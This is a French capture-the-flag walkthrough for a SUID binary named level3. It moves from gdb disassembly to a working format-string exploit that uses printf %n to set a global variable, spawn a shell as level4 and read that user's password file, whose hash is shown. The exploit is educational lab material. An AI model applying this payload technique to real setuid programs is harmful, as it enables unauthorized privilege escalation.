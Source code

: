 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  [...]
  ```
    - On a un binaire appartenant a level4 dans le home avec les droits SUID.

- `./level3`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level3`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  v
      0x0804851a  main
    [...]
    ```
    - on trouve une fonction v en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
      0x0804851a <+0>:	push   ebp
      0x0804851b <+1>:	mov    ebp,esp
      0x0804851d <+3>:	and    esp,0xfffffff0
      0x08048520 <+6>:	call   0x80484a4 <v>
      0x08048525 <+11>:	leave
      0x08048526 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction v()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait rien d'autre qu'appeler v()<br/><br/>
    
  - `disas v`
    ```asm
    Dump of assembler code for function v:
      0x080484a4 <+0>:	push   ebp
      0x080484a5 <+1>:	mov    ebp,esp
      0x080484a7 <+3>:	sub    esp,0x218
      0x080484ad <+9>:	mov    eax,ds:0x8049860
      0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
      0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
      0x080484be <+26>:	lea    eax,[ebp-0x208]
      0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
      0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
      0x080484cc <+40>:	lea    eax,[ebp-0x208]
      0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
      0x080484d5 <+49>:	call   0x8048390 <printf@plt>
      0x080484da <+54>:	mov    eax,ds:0x804988c
      0x080484df <+59>:	cmp    eax,0x40
      0x080484e2 <+62>:	jne    0x8048518 <v+116>
      0x080484e4 <+64>:	mov    eax,ds:0x8049880
      0x080484e9 <+69>:	mov    edx,eax
      0x080484eb <+71>:	mov    eax,0x8048600
      0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
      0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
      0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
      0x08048504 <+96>:	mov    DWORD PTR [esp],eax
      0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
      0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
      0x08048513 <+111>:	call   0x80483c0 <system@plt>
      0x08048518 <+116>:	leave
      0x08048519 <+117>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049860 dans le data segment register
        - `x/s 0x8049860`
          - `0x8049860 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Stocke dans eax la valeur à ebp - 520 => esp + 16
      - Stocke la valeur de eax (valeur à l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse ebp - 520) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+62>
      - Stocke dans eax la valeur de l'adresse 0x804988c dans le data segment register
        - `x/s 0x804988c`
          - `0x804988c <m>:	 ""`
      - Compare la valeur de eax (la globale m) avec 0x40 (64)
      - Jump à <+116> si la comparaison est fausse<br/><br/>
    - <+64> ... <+99>
      - Stocke dans eax la valeur de l'adresse 0x8049880 dans le data segment register
        - `x/s 0x8049880`
          - `0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>`
      - Stocke eax dans edx
      - Stocke dans eax la valeur de l'adresse 0x8048600
        - `x/s 0x8048600`
          - `0x8048600:	 "Wait what?!\n"`
      - Stocke edx (stdout) sur la stack (à esp + 12)
      - Stocke 0xc (12) sur la stack (à esp + 8)
      - Stocke 0x1 (1) sur la stack (à esp + 4)
      - Stocke la valeur de eax ("Wait what?!\n") sur la stack (à esp)
      - Call fwrite() avec les arguments stockés sur la stack<br/><br/>
    - <+104> ... <+111>
      - Stocke la valeur à l'adresse 0x804860d sur la stack (à esp)
        - `x/s 0x804860d`
          - `0x804860d:	 "/bin/sh"`
      - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+116> ... <+117> <= Jump conditionnel depuis <+62>
      - Réinitialisation de la mémoire, fin d'exécution


## Exploit

On comprend grâce à l'analyse que pour pouvoir avoir notre shell il va falloir donner à la globale 'm' (à l'adresse 0x804988c) la valeur 64, sinon on sort direct du programme.

On fait appel à deux fonctions avant la comparaison:
- fgets(buffer, 512, stdin), qui est protégé d'un buffer overflow puisqu'il ne lira jamais plus de 511 octets
- printf(buffer), ici par contre le printf est vulnérable à un [exploit de format string](https://cs155.stanford.edu/papers/formatstring-1.2.pdf#page=11)

On cherche le nombre de paramètres a demander pour que printf() commence a prendre ses arguments sur le début de notre format string:
- `echo 'AAAA%x.%x.%x.%x.%x' | ./level3`
  ```
  AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825
  ```
    - On remarque que printf arrive bien sur le début de notre format string (`41414141` => `AAAA`), au quatrième paramètre
- On peut donc choisir une adresse à afficher: `python -c 'print "\x8c\x98\x04\x08 %4$x"' | ./level3`
  ```
  � 804988c
  ```
Maintenant qu'on sait comment y accéder, on va se servir du [modifier %n de printf](https://docs.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), qui prend un pointeur sur entier en paramètre (notre adresse) et y écrit le nombre d'octets précédemment affichés par printf.

- `python -c 'print "\x8c\x98\x04\x08%1$60d%4$n"' > /tmp/exploit`
  - Ici, on affiche l'adresse (4 octets) et le premier paramètre de la stack (0x200) avec un padding de 60 (60 octets)
  - Puis on dit a printf d'écrire le nombre d'octets écrits précédemment (donc 60 + 4) à l'adresse indiquée par le 4ème argument (qui est le début de notre format string: `0x804988c` en little endian)
- `cat /tmp/exploit - | ./level3`
  ```
  �                                                         512
  Wait what?!

  ```
  - `whoami`
    ```
    level4
    ```
  - `cat /home/user/level4/.pass`
    ```
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

